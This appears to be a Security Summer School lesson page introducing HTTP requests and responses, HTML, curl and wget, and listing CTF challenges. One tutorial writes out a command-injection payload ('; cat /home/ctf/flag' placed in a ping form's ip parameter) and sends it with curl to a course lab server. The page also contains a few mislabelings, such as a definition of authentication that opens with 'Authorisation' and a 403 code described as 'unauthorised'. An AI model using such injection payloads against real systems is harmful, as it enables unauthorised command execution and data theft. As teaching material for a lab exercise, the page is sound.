


# (Re)Discovering the Browser

## Introduction

In this session we'll zoom in on one of the application-level protocols mentioned in session [Explaining the Internet](../explaining-the-internet/): HTTP.
We'll explain how the browser works and what information to draw from the most widely spoken language on the Internet: HTML.
In addition, we'll also imitate the behaviour of our browser using two highly-versatile commands: `curl` and `wget`.

## Reminders and Prerequisites

For this session, you'll need:
- a high-level understanding of the TCP/IP stack explained in session [Explaining the Internet](../explaining-the-internet/)
- an internet connection
- a Firefox/Chrome browser
- a Linux CLI

## Web Applications

A typical web application is essentially a server.
A server is a host connected to the Internet that **listens** for connections from **clients**.
A client is any application that interacts with the server.
So in short, the server waits for clients to come to it.
The clients are proactive.
They reach out to the server by initiating connections.



## Web Security

There are 3 main subjects when it comes to web security:
- client-side security (i.e. browser security)
- server-side security
- communications security (i.e. the security of the data while it's travelling from client to server or vice-versa)

In this track, we'll discuss about server-side security as attacking servers is by far the most rewarding out of the 3 options above.
Since servers communicate with lots of clients, infecting one server can allow an attacker to steal data or even infect the server's clients as well.

### AAA

We say there are 3 A's when it comes to web security (and not only web security):
- Authentication
- Authorisation
- Accounting

#### Authentication

Authorisation refers to verifying the client's identity.
It's usually done via requiring the client to submit some credentials such as username and password.
Simply put, authentication takes place whenever you are required to **login** to a website.
The purpose of authentication is obvious: to prevent attackers from **impersonating** legitimate users.

So authentication means answering the question: "Who are you?"
Authentication on its own is not _that_ powerful.
It might allow the server admin to specify which users are allowed to login to a system, but not _what they can do_ once they're logged on that system.

#### Authorisation

In order to have a finer access control, such as specifying that a given user may read some files from the server while others can't, authentication is not enough.
We need a means to **enforce** some security policies like, for example, UNIX-like permissions on the file system.
Authentication helps us identify the user, but we need another "A", called **Authorisation** in order to decide what that user may or may not do.

In short, authorisation answers the question: "What can you do?".
It means defining a set of **policies** by which to grant users various kinds of access to different resources.
You can read about the 3 large types of access control types, from which policies derive, [at the end of this session](#access-control-types). 

#### Accounting

Accounting refers to logging as a means to audit a system.
Logs provide a chronological view of the events that took place on a system / web server.
Using them we can trace and understand attackers better and protect from them in the future.

## HyperText Transfer Protocol (HTTP)

As its name implies, HTTP was initially used to transfer text-based data, because when it was proposed in 1991, that's what its creators imagined the Internet was going to be: a collection of text files.
Later versions of HTTP started to accommodate more types of data, including video, audio and even raw bytes.
Nowadays, you can send anything via HTTP.
Still, one of the main things that browsers receive via HTTP is **HTML (HyperText Markup Language)**.
We'll dive into HTML [a bit later in this session](#html).

Notice that both HTTP and HTML contain the word "HyperText".
It refers to a property of websites to contain **references** to other websites or to other parts of the same website, thus creating a _web-like structure of the Intenet_, thus the _World-Wide Web_.
Markdown is another hypertext language.
We use Markdown to write text content for the Security Summer School.
We can use references to [other sections of the same document](#further-reading), or to [other websites](https://www.youtube.com/watch?v=jIQ6UV2onyI) entirely.

As you may remember from [the previous session](../explaining-the-internet/), HTTP is an application-layer protocol.
This means it sits at the top of the TCP/IP stack and mostly receives and sends user data from and to its underlying transport protocol.
As the transferred data is mostly text, error checking is important.
Thus, the transport-layer protocol used by HTTP is TCP.

Most websites nowadays use HTTP or HTTPS to transfer data.
Remember the anatomy of a URL, also from [the previous session](../explaining-the-internet#anatomy-of-a-url).


The first part of a URL is called the **scheme**.
It defines the protocol used for interacting with that website.
In the example above, the scheme is `http`, i.e. messages to and from the website `www.example.com` will be passed using HTTP.
By default, HTTP uses port 80 to listen for connections, but we can use any other port we want.
Usually, these ports are in the 8000 - 8099 range to maintain some visual consistency with the original port.

The `http` scheme isn't so common now.
Most websites you visit on a daily basis use a different scheme: `https`.
`security-summer-school.github.io`, for example, uses HTTPS.

### HTTPS

HTTPS stands for HTTP **Secure**.
As we're going to see in the [next section](#http-requests-and-responses), HTTP sends data in clear text.
This means that any attacker can intercept network traffic and see what data is being transferred.
HTTPS was developed to remedy this vulnerability.
Instead of being built on top of TCP, HTTPS is built on top of _yet another application-level-protocol_: **Transport Layer Security (TLS)**.
TLS allows data sent via HTTPS to be encrypted, thus making it unintelligible for attackers.

##  Requests and Responses

HTTP has 4 properties that have allowed it to become ubiquitous in the Internet:
1. **Statelessness:** by default HTTP is a simple request-response protocol maintaining no state between successive communications.
Its design specifies that **every** request is independent from any other.
This is good for designing a web server as it makes it simpler and cleaner, but what if that server is Facebook?
Once you log in, you want it to "remember" who you are so you can still be logged in after more than 1 click.
A stateless protocol cannot do this.
This shortcoming has led to the design of cookies, which are small pieces of information exchanged between the client and the web application.
They are used to "remind" the server who the client is upon each request.
We'll discuss cookies in [the next session](../hacking-the-web/#cookies).

1. **Message format:** HTTP requests have a specific format.
Namely, they are comprised of plain-text header and data (although newer improvements also implement a binary protocol).
The header contains various information about the client or the server (e.g. a user-agent, page caching information, text encoding information), while the payload is very often (but not always) an HTML page.

1. **Addressing:** resources on the web are located using the URL addressing scheme.
Possible vulnerabilities here include a misconfigured web server that allows viewing application-specific files, or worse, that allows accessing other files on the host machine.
While this information leakage is not very dangerous by itself, it may be used as an intermediary stage for other attacks.
You can read more about URLs [here](https://skorks.com/2010/05/what-every-developer-should-know-about-urls/).

1. **Request methods:** HTTP communication is done by using methods, also called HTTP verbs.
The most used methods are `GET`, `POST`, `PUT` and `DELETE`.
    - The `GET` method is read-only and is used to retrieve data from the server.
    - A `DELETE` request is used to remove the specified resource from the server.
    - The `PUT` method is used to modify an entire resource.
    - `POST` requests are used to create new resources.

You can find more information about all existing methods [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods).

Communication between a client and a server usually follows these steps:
1. A client (a browser) sends an HTTP request to the web.
1. A web server receives the request.
1. The server runs an application to process the request.
1. The server returns an HTTP response (output) to the browser.
1. The client (the browser) receives the response.

### Requests


Here we have a `GET` request.
It is made for a file: `/index.html`.

Remember the **path** from the anatomy of a URL:


This is the file that you request.
The path is like a path in the Linux file system.
In the image above, the request asks for the file `/path/to/myfile.html`.
So the request would look something like:
```
GET /path/to/myfile.html HTTP/1.1
[...]
```

Below the first line in the picture that precedes the anatomy of a URL, we can find the **headers** of the request.
They are metadata used to provide additional information about the connection, about the client and about how to handle the request.
Some usual headers are:
- **Host:** indicates the desired host handling the request
- **Accept:** indicates what MIME type(s) are accepted by the client; often used to specify JSON or XML output for web-services
- **Cookie:** passes cookie data to the server
- **Referrer:** page leading to this request (note: this is not passed to other servers when using HTTPS on the origin)
- **Authorization:** used for basic auth pages (mainly).
It takes the form "Basic <username:password encoded with base64 >"
Don't worry about what `base64` is now.
We'll explain it in the [Data Representation](../data-representation/) session.
- **Content-Type:** specifies the format of the data
Some examples are:
    - `text/html` for a HTML page 
    - `text/plain` for plain text
    - `application/json` for JSON files
    - `image/jpeg` for JPEG images
- **Content-Length:** specifies the size in bytes of the **body**.
The body is the data that comes along with a request or response.
It is described in some more detail in [its own section](#request-body).

### Responses


- `1xx`: informational responses
- `2xx`: the request was fulfilled successfully.
The most common code is `200`.
- `3xx`: redirects - the request was passed to another server
- `4xx`: client errors.
Some very common client errors are:
    - `400`: **bad request** - there's an error in the request.
    - `404`: **not found** - the requested resource doesn't exist.
    For example, in case `/file.txt` doesn't exist and the client sends `GET /file.txt HTTP/1.1`, the server answers with `404`.
    - `403`: **unauthorised** - you don't have access to that resource.
    Let's say the file `secret.txt` exists, but is only accessible to the `admin` user.
    If a regular user sends `GET /secret.txt HTTP/1.1`, they would get a `403` response in return.
    - `405`: **method not allowed** - say a server only allows `GET` and `POST` methods.
    You would get a `405` response if you sent it a `PUT` method, for example.
- `5xx`: server errors

#### Challenge - Cockroach

What methods does the server support?

### Query Parameters

This is the last time today that you'll se the image with the anatomy of a URL, we promise.


Look at the **parameters** of the URL
They are highlighted in blue.
Query parameters are key-value pairs that the server can retrieve from the request.
So in our example, the server can see that `key1` has the value `value1` and `value2` corresponds to `key2`.

Think of HTTP queries/requests (`GET`, `POST`, `PUT` etc.) as **functions**.
They return something (the codes explained in the earlier section and sometimes data, like in the case of `GET`) and might have side effects (`POST`, `PUT`, `DELETE` come to mind here).
Each pair of **path and method** is equivalent to a function.
In any programming language, functions also take arguments.
These arguments are the query parameters of a request. 
And just like function arguments, they provide input to the server, values by which the client can alter its behaviour.

#### Challenge: Give to Get

Find the correct query parameter with which to get the flag.
The message displayed by the server contains all the hints you need.

### Request Body

Obviously, HTTP requests may also contain raw data.
For example, if we use a `POST` method, we also have to provide the data to be saved on the server.
Notice that the field `Content-Length` from the header of the request must contain the length of the **body**.
Otherwise, the server may discard any bytes that exceed the specified `Content-Length`.

## Browsers

Browsers are the most common type of client for web servers.
They send requests to servers like the ones we outlined [before](#requests).
Servers respond with text files, images, audio files, all kinds of data.
Browsers also store those precious cookies that all websites are eager to give you.
We'll dive deeper into browsers [next session](../hacking-the-web/).

For now, press `Ctrl + u` in your browser.
It should lead you to a more weird-looking [version of our website](view-source:https://security-summer-school.github.io/essentials/rediscovering-the-browser/).
This is the HTML code that the browser **renders** in order to display its contents in a more "eye-candy" fashion (insert images, code snippets, videos etc.).

### HTML

As we've [already established](#hypertext-transfer-protocol-http), HTML stands for HyperText Markup Language.
It's a **description language**, in which the text content of a website is stored.
If you look at view-source:https://security-summer-school.github.io/essentials/rediscovering-the-browser/, you'll find that the sentences in the `.html` file are the same ase those on [GitHub](https://github.com/security-summer-school/essentials/blob/master/rediscovering-the-browser/index.md).
`security-summer-school.github.io` is built using [Docsy](https://github.com/google/docsy-example).
Among many other things, Docsy can convert Markdown files to HTML.
This is how we write these sessions in Markdown (another markup language), but you see them in HTML.

#### Challenge: Eyes

Investigate the HTML code of the website and get the flag.

#### The Document Object Model (DOM)

Every HTML file is organised hierarchically by what's called a **Document Object Model (DOM)**.
It connects web pages to scripts or programming languages by representing the structure of a document, such as the HTML representing a web page, in memory.

The DOM represents a document as a tree data structure.
Each branch of the tree ends in a node, and each node contains objects.
DOM methods allow programmatic access to the tree.
With them, you can change the document's structure, style, or content.


Every element within your document is an object: `\<head\>` or `\<body\>` tags etc.
DOMs are flexible and allow easy introduction of nodes, as all objects are nodes.
The DOM can also be used to make changes to the contents of the HTML document, such as creating animations or validating input etc.

DOM's are outside the scope of the Security Essentials track.
To get a better understanding of DOM's, join the [Web Security track](https://security-summer-school.github.io/web) next year.

## "Browsers" From the CLI

The browser is all nice and good-looking, but is not so easily configurable.
It's a bit difficult to add your own headers to a request form a browser, for example.
And good luck writing a script that launches subsequent, interdependent browser requests.
When it comes to hacking and crafting very specific HTTP requests, we need to move away from the browser and into the CLI.

### `curl`

The most versatile CLI tool for creating and sending HTTP requests is by far `curl`.
It's syntax is at firs really simple:
```
root@kali:~# curl <URL>
```

To see the full request and response, use the `-v` parameter:
```
root@kali:~# curl -v example.com
*   Trying 93.184.216.34:80...
* TCP_NODELAY set
* Connected to example.com (93.184.216.34) port 80 (#0)
> GET / HTTP/1.1
> Host: example.com
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Age: 441067
< Cache-Control: max-age=604800
< Content-Type: text/html; charset=UTF-8
< Date: Sat, 02 Jul 2022 18:33:49 GMT
< Etag: "3147526947+ident"
< Expires: Sat, 09 Jul 2022 18:33:49 GMT
< Last-Modified: Thu, 17 Oct 2019 07:18:26 GMT
< Server: ECS (dcb/7EEA)
< Vary: Accept-Encoding
< X-Cache: HIT
< Content-Length: 1256
< 
<!doctype html>
[...]
```

The request is very simple:
```
GET / HTTP/1.1
Host: example.com
User-Agent: curl/7.68.0
Accept: */*
```
It requests the root of the website, that the client (`User-Agent`) is `curl` version `7.68.0`, and that it accepts any type of response (`Accept`).

The server at `example.com` answers with the code 200, meaning the request was handled smoothly.
It specifies that the delivered content is an HTML file (`Content-Type: text/html`), with UTF-8 encoding (`charset=UTF-8`).
If you don't know what UTF-8 is yet, it's a convention on how to encode characters.
We will explain it along with other encodings in session [Data Representation](../data-representation/).
Notice that since the response does contain a body (i. e. the HTML contents of example.com), the `Content-Length` field is also present and set to the size of the HTML file.

`curl`'s versatility comes from the fact that we can enrich this request by specifying [query parameters](#query-parameters) and even a [body](#request-body).

### URL encodings

Head over to your browser and search for `security; summer ? school`.
Take a look at the link in the browser:
```
https://www.google.com/search?client=firefox-b-lm&q=security%3B+summer+%3F+school
```

To recap, its query parameters are:
- `client=firefox-b-lm`
- `q=security%3B+summer+%3F+school`

The first parameter seems reasonable.
But what's with the weird symbols in the value of `q`?
Those symbols are the **URL encodings** of `; ` and ` ? `.
In order for the value of `q` not to contain some specific characters used by URLs (such as `?` to separate the path from the query parameters), those characters are **encoded** differently in the URL.
It's something similar to escaping characters in bash.

Specifically, in the URL below:
- `+` is the URL encoding for space
- `%3B` is the URL encoding for `;`
- `%3F` is the URL encoding for `?`

### Tutorial - Readme

The website tells you to click a hyperlink.
Do it and then look at the address bar.
Notice the query parameter `flag=<flag value>`.
Flags can be hidden anywhere.

### Tutorial - One More Pinger

That was simple.
Now it's time for a more difficult use case of query parameters.
Yes, it's "Pinger" again.
But this time, you'll solve it **entirely from the terminal**.

First, get the HTML content of the website:
```html
root@kali:~# curl http://141.85.224.70:8069/pinger

<html>

    <head>
        <title>Pinger</title>
    </head>

    <h2>My purpose is simple: I check the availability of network hosts by pinging their IP. Use the text box below to give me an IP to ping.</h2>

    <form action="/ping" method="get">
        IP: <input type="text" name="ip"></br>
        <input type="submit" value="Submit">
    </form>


</html>
```

The IP is retrieved from the user via this `form`:
```html
<form action="/ping" method="get">
    IP: <input type="text" name="ip"></br>
    <input type="submit" value="Submit">
</form>
```

From here we get the following information:
- upon pressing "Submit", a `GET` request is sent to `/ping`
- the input we provide is set as the value of the key `ip`

So a request URL that gets the flag would look like this:
```
GET /ping?ip=; cat /home/ctf/flag
```

Let's try to do this with `curl`:
```
root@kali:~# curl -v -G -d 'ip=; cat /home/ctf/flag' http://141.85.224.70:8069/ping
*   Trying 141.85.224.70:8069...
* TCP_NODELAY set
* Connected to 141.85.224.70 (141.85.224.70) port 8069 (#0)
> GET /ping?ip=; cat /home/ctf/flag HTTP/1.1
> Host: 141.85.224.70:8069
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 400 Bad Request
[...]
```

Why does the request fail?
Look at the request:
```
GET /ping?ip=; cat /home/ctf/flag HTTP/1.1
```

The value of the query parameter `ip` contains some forbidden characters: `;`, `/` and space.
We need to send them encoded for URLs.
For this we use the `--data-urlencode` parameter for `curl`:
```
root@kali:~# curl -v -G --data-urlencode 'ip=; cat /home/ctf/flag' http://141.85.224.70:8069/ping
*   Trying 141.85.224.70:8069...
* TCP_NODELAY set
* Connected to 141.85.224.70 (141.85.224.70) port 8069 (#0)
> GET /ping?ip=%3B%20cat%20%2Fhome%2Fctf%2Fflag HTTP/1.1
> Host: 141.85.224.70:8069
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
[...]
```

Notice that now the the value of `ip` looks stranger: `ip=%3B%20cat%20%2Fhome%2Fctf%2Fflag`:
- `%3B` is the URL encoding for `;`
- `%20` is the URL encoding for space
- `%2F` is the URL encoding for `/`

### `wget`

**Do not confuse it with `curl`!**
Its [man page](https://linux.die.net/man/1/wget) clearly states:
> Wget - The non-interactive network downloader. 

In other words, while `curl` is an HTTP client which, obviously, receives HTTP responses, `wget` is used for **downloading files** and nothing else.

Let's try it out:
```
root@kali:~# wget example.com
[...]
index.html        100%[===================>]   1,23K  --.-KB/s    in 0s

root@kali:~# cat index.html # Now we have the file locally.
<!doctype html>
<html>
<head>
    <title>Example Domain</title>
[...]
```

## Summary

HTTP is the most widely used protocol for passing data on the Internet.
It is a stateless protocol, meaning that each request is independent from any other request, even for the same resource.
It allows a few specific methods:
    - `GET` - request data from the server
    - `POST` - upload data to the  server
    - `PUT` - update data on the server
    - `DELETE` - remove data from the server

Each request is like a function call across the web and can receive parameters.
In a URL, they are separated from the path by `?` and from each other by `&`. 
They are key-value pairs such as `?user=hacker&role=god`.

The two commands we've added to our arsenal today are `curl` and `wget`:
- `curl`: create and send HTTP requests.
Here are some of its most useful parameters:
    - `-v`: **verbose** - display the request and response headers.
    - `-d`: **data** - specify the body of a request (usually a `POST` request) and the query parameters
        - `-G`: **get** - allows sending a body in a `GET` request
    - `-X <method>`: use another HTTP method than the default `GET`
    - `-L`: **follow redirects** - issue another request to the redirected URL the when receiving a `3XX` response. 
- `wget`: download files

## Activities

## Challenge: Give to Post

Read the message displayed by the server carefully.
It tells you all you need to get the flag.

## Challenge: King Kong

You need to tell the server that you are someone special.

## Challenge: Name

Do what the server tells you.

## Challenge: Gimme

Try to add a new resource to the server.
What can that 35 mean?

## Challenge: Surprise

The server expects a specific type of **content**.

## Further Reading

### Access Control Types

Access control is one part of authorisation.
Below are the 3 main access control types, each with a brief description.
For a more in-depth look at these 3, check out [this link](https://www.twingate.com/blog/access-control-models/).
They are not necessarily disjoint. Most applications and operating systems use all 3 types at once for different things.

#### Discretionary Access Control (DAC)

This is the type of model employed by Linux file permissions.
Each user can decide what permissions to give to other users.
It's easy to implement, but can lead to vulnerabilities because it relies on the fact that users are knowledgeable about security, which is often a far-fetched assumption.

#### Mandatory Access Control (MAC)

While DAC is distributed (every user is free to do as they please with their resources), MAC is the opposite: it involves a third party called **resource monitor** (eg: the OS) that decides who can do what.

This is the case with sandboxing of iOS/Android apps.
The OS verifies each attempt to access a resource and decides whether to allow it or not.
This model is more complex as it requires a very secure resource monitor, but ensures better security than DAC as it makes fewer assumptions.

#### Role-Based Access Control (RBAC)

In this role, the subjects (users) may assume different roles and are granted privileges according to their roles rather than according to their user IDs.

Imagine a student logging onto his school's/university's website.
If they log as a student, they can't access teachers' exam solutions.
But if they could somehow obtain the role of teacher (while using the same account as before), they could view those solutions.



This sort of attack is called a **privilege escalation attack** because the student has managed to _elevate_ his default privileges (as a student) to those of a teacher.
